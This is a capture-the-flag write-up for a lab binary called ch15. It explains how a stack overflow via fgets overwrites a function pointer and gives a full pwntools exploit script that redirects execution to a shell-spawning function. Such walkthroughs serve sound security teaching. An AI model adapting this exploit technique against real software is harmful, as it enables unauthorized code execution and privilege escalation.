

# ch15

## Vulnerability summary

The program defines a local function pointer `void (*func)() = sup;` immediately **after** a 128-byte buffer `char buf[128];`. The program uses `fgets(buf, 133, stdin);` which allows writing up to **133** bytes into a 128-byte buffer — enough to overwrite the 4-byte function pointer on the stack. When `func()` is later called, the attacker controlled pointer is dereferenced and executed. Because `shell()` is a symbol in the binary, the attacker can overwrite `func` with the address of `shell()` to spawn `/bin/bash`.

This is a classic *stack buffer overflow* used to overwrite a function pointer (not a return address).

---

## Source

```c
void shell() {
    setreuid(geteuid(), geteuid());
    system("/bin/bash");
}

void sup() {
    printf("Hey dude ! Waaaaazzaaaaaaaa ?!\n");
}

void main() {
    int var;
    void (*func)() = sup;
    char buf[128];
    fgets(buf,133,stdin);
    func();
}
```

Important facts from binary analysis:

* 32-bit little-endian
* `buf` is 128 bytes
* `func` is directly after `buf` on the stack (4 bytes)
* `fgets` can write 133 bytes → 5 bytes past buffer (enough to overwrite `func`)
* `shell()` is present as a symbol (static address because PIE = No)

---

## Exploit strategy

1. Determine the offset from the start of `buf` to the saved function pointer `func`.
2. Create an input consisting of `offset` filler bytes + 4-byte little-endian address of `shell()` + newline.
3. Send it to the program. When `func()` is called, it will jump to `shell()` and spawn a `/bin/bash`.
4. Use `p.interactive()` to interact with the shell.

Because `shell()` calls `setreuid(geteuid(), geteuid())` first, if the binary is SUID this may yield an elevated shell.

---

## Finding the offset

You already did this with a crash in GDB that showed the overwritten instruction pointer value `0x62616168`. Using pwntools’ `cyclic_find`:

```bash
python3 -c "from pwn import cyclic_find; print(cyclic_find(0x62616168))"
# prints: 128
```

So the function pointer is at offset **128** from the start of `buf` — exactly after the 128-byte buffer.


---

## Exploit

Saved as `exploit.py` (executable with `python3 exploit.py`):

```py
#!/usr/bin/env python3
from pwn import *

context.binary = ELF('ch15')
context.log_level = 'info'   # or 'debug' for more output

# start the process
p = process(context.binary.path)

# enable GDB with: python3 exploit.py GDB
if args.GDB:
    gdb.attach(p, gdbscript='break main\ncontinue\n')

offset = 128
target = context.binary.symbols['shell']

payload = b'A' * offset      # fill buffer up to function pointer
payload += p32(target)       # overwrite func with address of shell()
payload += b'\n'             # fgets/line termination

p.sendline(payload)
p.interactive()
```

**Notes**

* `p32()` packs the 32-bit address in little-endian (required for i386).
* If the program prints any prompt before reading, you might need `p.recvuntil(b'...')` before `p.sendline(...)`. For this program `fgets` reads immediately so simple send is fine.
* Run with `GDB` to watch execution: `python3 exploit.py GDB`.

---


